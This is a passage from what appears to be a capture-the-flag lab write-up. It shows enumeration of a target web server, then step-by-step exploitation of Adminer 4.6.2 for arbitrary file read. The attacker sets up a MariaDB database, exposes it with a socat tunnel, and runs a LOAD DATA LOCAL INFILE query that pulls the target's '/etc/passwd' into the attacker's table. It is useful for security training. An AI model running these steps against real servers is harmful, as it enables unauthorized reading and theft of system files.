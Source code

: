 ```
$username = "waldo";
$password = "Wh3r3_1s_w4ld0?";
```
Unfortunately this credentials does not leads to anywhere as well.  
Since we do not found anything, let's keep enumerating for other services where this creds may be valid.  
Now, if we keep enumerating directories we can find into the utility-script dir the following files:
```
/info.php             (Status: 200) [Size: 83770]
/phptest.php          (Status: 200) [Size: 32]
/adminer.php          (Status: 200) [Size: 4296]
```
So, now, lets dig into ```http://10.10.10.187/utility-scripts/adminer.php```.

## User
As we open the ```http://10.10.10.187/utility-scripts/adminer.php``` we can see that this site is running admirer 4.6.2.  Poking around on internet we can see that this version is vulnerable to Improper access control and allows an attacker to to achieve Arbitrary File Read on the server by connecting a remote MySQL database to the Adminer.  
Now, according to [this article](https://podalirius.net/en/articles/writing-an-exploit-for-adminer-4.6.2-arbitrary-file-read-vulnerability/) we can set up a database on our localhost, create user with grants and achieve arbitrary file read.
```                                                                                               
MariaDB [(none)]> CREATE DATABASE deleteme;                                                                        
Query OK, 1 row affected (0.000 sec)
MariaDB [(none)]> use deleteme                                                                                     
Database changed                                                                                                                                                              
MariaDB [deleteme]> create table exf (a TEXT(4096));                                                                                                           
Query OK, 0 rows affected (0.007 sec)                            
MariaDB [deleteme]> show tables;                                                                                                           
+--------------------+                                                                                             
| Tables_in_deleteme |                                                                                             
+--------------------+                                                                                             
| exf                |                                                                                             
+--------------------+                                                                                             
1 row in set (0.001 sec)
MariaDB [(none)]> CREATE USER 'b0d'@'localhost' IDENTIFIED BY 'password';
Query OK, 0 rows affected (0.001 sec)
MariaDB [(none)]> GRANT ALL PRIVILEGES ON deleteme.* TO 'b0d'@'localhost';
Query OK, 0 rows affected (0.001 sec)
```
Now we set up the database, however, as we know, MySQL by defaut listens on port 3306 of localhost.  
If we want to make it publicly available we can either edit ```/etc/mysql/mariadb.conf.d/50-server.cnf``` or setup a socat tunnel using the following command:  
```
socat TCP-LISTEN:3306,fork,bind=10.10.14.24 TCP:127.0.0.1:3306
```
Now we can provide all the defined credentials to admirer.php and log in into the service.  
Once we are in, always according to [this article](https://podalirius.net/en/articles/writing-an-exploit-for-adminer-4.6.2-arbitrary-file-read-vulnerability/) we can perform the following query to read local files:  
```
LOAD DATA local INFILE '/etc/passwd' INTO TABLE exf fields TERMINATED BY "\n";
```